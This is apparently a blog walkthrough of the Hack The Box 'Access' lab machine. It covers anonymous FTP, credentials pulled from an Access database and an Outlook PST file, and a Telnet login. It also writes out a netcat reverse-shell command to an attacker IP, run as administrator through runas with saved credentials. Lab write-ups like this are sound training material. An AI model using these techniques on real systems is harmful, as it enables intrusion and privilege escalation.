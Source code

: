 ```yaml
---
title: "Access Walkthrough(Hack The Box)"
date: 2025-04-01
draft: true
description: "A brief walkthrough of Access box from Hack the box"
tags: ["Easy", "Windows", "Hack The Box", "Hacking", "Active Directory", "Walkthrough"]
 
---
```

## Reconnaissance
- On the initial Nmap scan I can see interesting ports open which are FTP, Telnet and a http port(80) 
![Pasted image 20241216220450.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241216220450.png?raw=true)
- Quickly I checked for anonymous login and it seems like it was enabled. Whcih was interesting.
- While at that I also discovered that a web page mentions `LON-MC6` which leads to `MS09-042` a vulnerability in Telnet

{{< badge >}} Definition {{< /badge >}}
This security update resolves a publicly disclosed vulnerability in the Microsoft Telnet service. The vulnerability could allow an attacker to obtain credentials and then use them to log back into affected systems. The attacker would then acquire user rights on a system identical to the user rights of the logged-on user. This scenario could ultimately result in remote code execution on affected systems. An attacker who successfully exploited this vulnerability could install programs; view, change, or delete data; or create new accounts with full user rights. Users whose accounts are configured to have fewer user rights on the system could be less impacted than users who operate with administrative user rights.

- Anyway when I try to login FTP, and it worked but after that I can't access any directories it's simply giving timeouts. Which was frustrating
![frustrating](https://media.giphy.com/media/3oEhmI2ggePqhmHoE8/giphy.gif?cid=790b76110k8nd7mxkyobs68ecd2qo6ct0xsok5yl1zy1q2li&ep=v1_gifs_search&rid=giphy.gif&ct=giving)
- After multiple tries atlast I was able to access the files in FTP.

## Enumeration

### Analyzing `backup.mdb`
- While enumerating the directories I found two files interesting one was an db file - `backup.mdb` 
```
> file backup.mdb 
backup.mdb: Microsoft Access Database
```
- To see the contents of the database I installed a tool `sudo apt install mdbtools`
- I can list all the tables using this coomand
```bash
mdb-tables backup.mdb
```
- To get the data from a table I could use this command
```bash
mdb-export backup.mdb <table-name>
```
- From `auth_user` table I got a username and password
```
> mdb-export backup.mdb auth_user
<SNIP>
27,"engineer","access4u@security",1,"02/24/18 1:54:36",26,
<SNIP>
```
![one-down](https://media1.tenor.com/m/VaUHmQW1SNEAAAAd/one-down-saanvi-bahl.gif)

## Exploitation

### Analyzing `Access Control.zip`
- The other file was a compressed zip file - `Access Control.zip`.
- I used this password `access4u@security` for the zip file and extracted it's contents
```bash
7z x Access Control.zip
```
- It had only one file called `Access Control.pst`. I can see that this is a outlook mail file.
- So I used a online `PST` opener and read it's contents
- To keep it simple, It had password for another account. The message reads...
```
Hi there,

The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.                                                                                          

Regards,

John
```
- This username `security` and the password `4Cc3ssC0ntr0ller` works for telnet. So I logged in as user `security`
- Then I got the {{< keyword >}} User flag {{< /keyword >}}
![Pasted image 20241216231714.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241216231714.png?raw=true)

## Privilege Escalation
- Using `cmdkey /list` will show the available and stored creds.
- We can use `runas` for running as something if appropriate constraints are valid. For an example `runas` is similar to `sudo` for windows if not the same.
- Here in this case we got saved creds so first lets transfer `nc.exe` to the target machine
- Then I used this command to save it to a bat file
```bash
echo c:\users\security\nc.exe -e cmd.exe 10.10.14.12 6001 > shell.bat
```
- And execute it with `runas` command with saved creds for the user `administrator`
```bash
runas /user:administrator /savecred c:\users\security\shell.bat
```
- This above command will use the saved password for the user `Administrator` and run the malicious `bat` file as `Administrator`
- I got access as administrator in my shell
- I got {{< keyword >}} Root access {{< /keyword >}}
![Pasted image 20241216233210.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241216233210.png?raw=true)

## Summary
The Access machine from Hack The Box was an easy Windows-based challenge involving FTP access, database extraction, and privilege escalation. Initial enumeration revealed open FTP, Telnet, and HTTP ports, with anonymous FTP login enabled. A Microsoft Access database (backup.mdb) contained credentials, which unlocked a protected ZIP file leading to an Outlook PST file with another set of credentials. Using Telnet, I logged in as security and retrieved the user flag. Privilege escalation was achieved by leveraging stored credentials with cmdkey and runas, executing a Netcat reverse shell to gain administrator access and retrieve the root flag. The box was straightforward but engaging, with a mix of credential discovery and privilege escalation.

{{< typeit >}} This was a good and easy machine and thus short but bomb!, Next walkthrough would be Sightless so be sure to check it out. Bye!. {{< /typeit >}}
![bye](https://media3.giphy.com/media/v1.Y2lkPTc5MGI3NjExOGpxY2VveXNsY3N5cmd0cDhydXNva3I4b3RkMW4yN3ZlanV6MWxxcSZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/1Q6K09gcxYWcUxxraT/giphy.gif)
